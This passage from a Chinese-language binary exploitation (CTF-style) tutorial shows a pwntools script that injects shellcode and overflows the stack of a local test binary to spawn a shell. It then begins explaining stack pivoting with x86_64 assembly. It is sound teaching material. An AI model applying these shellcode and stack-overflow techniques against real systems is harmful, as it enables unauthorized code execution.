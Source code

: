 对应的exp：

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# context.log_level = "debug"
# context.terminal = ["konsole", "-e"]
context.arch = "amd64"

p = process("./a.out")

elf = ELF("./a.out")

p.send(asm(shellcraft.sh()).ljust(0x1000, b"\x00"))

payload = b"A" * 0x38
payload += p64(0xDEAD0000)
p.send(payload)

p.interactive()
```

上面这个exp中，`shellcraft.sh()`函数用于生成获取shell的shellcode的汇编指令，而`asm`函数用于将汇编指令转化为机器码。

### ret2syscall

咕咕咕

~~感觉用得不多，继续咕咕咕~~

## 栈迁移

栈迁移算是栈利用的核心和难点之一，个人认为学习栈迁移存在难度是主要因为栈寄存器的不断变换比较的难以理清楚思路。

### 原理

对于栈迁移，一般是利用于栈的溢出空间不够的情况，通常需要想办法在另一个区域构造好payload，如ROP链，然后将栈迁移过去执行ROP链。

那么要怎么进行栈迁移呢？我们先来回顾一下x86_64的函数调用流程。这里直接用栈溢出那一章的示例（从`call`开始）：

```asm
test:
    push    rbp
    mov     rbp, rsp
    sub     rsp, 16
    ...
    leave
    ret
main:
    ...
    call    test
    ...
```
